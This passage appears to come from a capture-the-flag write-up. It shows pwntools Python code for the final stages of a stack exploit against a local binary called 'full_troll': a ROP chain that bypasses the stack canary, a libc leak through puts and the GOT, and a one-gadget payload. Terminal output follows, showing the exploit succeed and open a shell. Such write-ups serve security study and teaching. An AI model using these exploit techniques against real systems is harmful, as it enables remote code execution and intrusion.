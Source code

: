 ```python
sc_leak_libc = p64(pop_rdi_ret) + p64(got_puts) + p64(puts) + p64(main)
pload_leak_libc = real_pwd.ljust(0x20, "A") + "C"*8 + pad + p64(canary) + "D"*8 + sc_leak_libc
sendpwd(r, pload_leak_libc)
pload_trigger_main_return = real_pwd.ljust(0x20, "A") + "\x00"*8
sendpwd(r, pload_trigger_main_return)
r.recvuntil("error")
l.address = u64(r.recvline()[:-1:].ljust(8, "\x00")) - l.symbols["puts"]
```

#### Stage 4. Triggering RCE

Using all information we have, just a simple poke to get RCE.

```python
sc_call_system = p64(l.address + ogt[1])
pload_rce = real_pwd.ljust(0x20, "A") + "C"*8 + pad + p64(canary) + "D"*8 + sc_call_system
sendpwd(r, pload_rce)
sendpwd(r, pload_trigger_main_return)
```

#### Pwned

```terminal
❯ python solve.py
[+] Starting local process './full_troll': pid 7926
[*] Stage 1 > Get the password
[+]         > password: VibEv7xCXyK8AjPPRjwtp9X
[*] Stage 2 > Leaking canary
[+]         > canary: 0x3fbac4c898134f00
[*] Stage 3 > Leaking program base
[+]         > program base: 0x5566f0372000, puts: 0x5566f0372840, puts GOT: 0x5566f0573f88, pop_rdi_ret gadget: 0x5566f03730a3, main: 0x5566f0372ead
[*] Stage 4 > Leaking libc base
[+]         > libc base: 0x7fbdf1368000, one gadget rce: 0x7fbdf147238c
[*] Stage 5 > Triggering RCE
[+] Pwned!
[*] Switching to interactive mode
$ uname -a
Linux fokt 5.0.0-31-generic #33~18.04.1-Ubuntu SMP Tue Oct 1 10:20:39 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```
